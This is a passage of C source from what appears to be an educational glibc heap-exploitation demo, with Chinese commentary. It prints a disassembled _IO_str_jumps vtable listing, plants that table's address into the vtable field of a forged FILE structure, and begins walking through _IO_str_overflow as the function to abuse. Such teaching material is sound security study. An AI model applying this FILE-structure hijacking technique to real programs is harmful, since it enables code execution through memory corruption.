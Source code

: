 ```c
                 "__libc_IO_vtables:00000000001E9560 qword_1E9560    dq 0                    ; DATA XREF: sub_52C20+49A↑o\n"
                 "__libc_IO_vtables:00000000001E9560                                         ; sscanf+B5↑o ...\n"
                 "__libc_IO_vtables:00000000001E9568                 dq 0\n"
                 "__libc_IO_vtables:00000000001E9570                 dq offset sub_93D50\n"
                 "\033[1;31m__libc_IO_vtables:00000000001E9578                 dq offset _IO_str_overflow\n\033[1;" PURPLE "m"
                 "__libc_IO_vtables:00000000001E9580                 dq offset _IO_str_underflow\n"
                 "__libc_IO_vtables:00000000001E9588                 dq offset _IO_default_uflow\n"
                 "__libc_IO_vtables:00000000001E9590                 dq offset _IO_str_pbackfail\n"
                 "__libc_IO_vtables:00000000001E9598                 dq offset _IO_default_xsputn\n"
                 "__libc_IO_vtables:00000000001E95A0                 dq offset _IO_default_xsgetn\n"
                 "__libc_IO_vtables:00000000001E95A8                 dq offset _IO_str_seekoff\n"
                 "__libc_IO_vtables:00000000001E95B0                 dq offset sub_92600\n"
                 "__libc_IO_vtables:00000000001E95B8                 dq offset sub_924E0\n"
                 "__libc_IO_vtables:00000000001E95C0                 dq offset sub_92870\n"
                 "__libc_IO_vtables:00000000001E95C8                 dq offset _IO_default_doallocate\n"
                 "__libc_IO_vtables:00000000001E95D0                 dq offset sub_937F0\n"
                 "__libc_IO_vtables:00000000001E95D8                 dq offset sub_93800\n"
                 "__libc_IO_vtables:00000000001E95E0                 dq offset sub_937D0\n"
                 "__libc_IO_vtables:00000000001E95E8                 dq offset sub_92870\n"
                 "__libc_IO_vtables:00000000001E95F0                 dq offset sub_937E0\n"
                 "__libc_IO_vtables:00000000001E95F8                 dq offset sub_93810\n"
                 "__libc_IO_vtables:00000000001E9600                 dq offset sub_93820\n\n");

    printf_color(GREEN, UNDEFINED, "其偏移为0x1E9560。将其填充到vtable字段，偏移为0xD8。\n");
    size_t _IO_str_jumps = libc_base + 0x1E9560;
    fake_FILE[0xD8 / 8] = _IO_str_jumps;

    printf_color(GREEN, UNDEFINED, "然后，我们进入_IO_str_overflow函数看看。\n\n");
    printf_color(BLUE, HIGHLIGHT, "(/libio/strops.c, line 80)\n");
    printf_color(PURPLE, HIGHLIGHT,
                 "int\n"
                 "_IO_str_overflow (FILE *fp, int c)\n"
                 "{\n"
                 "  int flush_only = c == EOF;\n"
                 "  size_t pos;\n"
                 "  if (fp->_flags & _IO_NO_WRITES)\n"
                 "      return flush_only ? 0 : EOF;\n"
                 "  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))\n"
                 "    {\n"
                 "      fp->_flags |= _IO_CURRENTLY_PUTTING;\n"
                 "      fp->_IO_write_ptr = fp->_IO_read_ptr;\n"
                 "      fp->_IO_read_ptr = fp->_IO_read_end;\n"
                 "    }\n"
                 "  pos = fp->_IO_write_ptr - fp->_IO_write_base;\n"
                 "  if (pos >= (size_t) (_IO_blen (fp) + flush_only))\n"
                 "    {\n"
                 "      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */\n"
                 "\treturn EOF;\n"
                 "      else\n"
                 "\t{\n"
                 "\033[1;31m\t  char *new_buf;\n"
                 "\t  char *old_buf = fp->_IO_buf_base;\n"
                 "\t  size_t old_blen = _IO_blen (fp);\n"
                 "\t  size_t new_size = 2 * old_blen + 100;\n"
                 "\t  if (new_size < old_blen)\n"
                 "\t    return EOF;\n"
```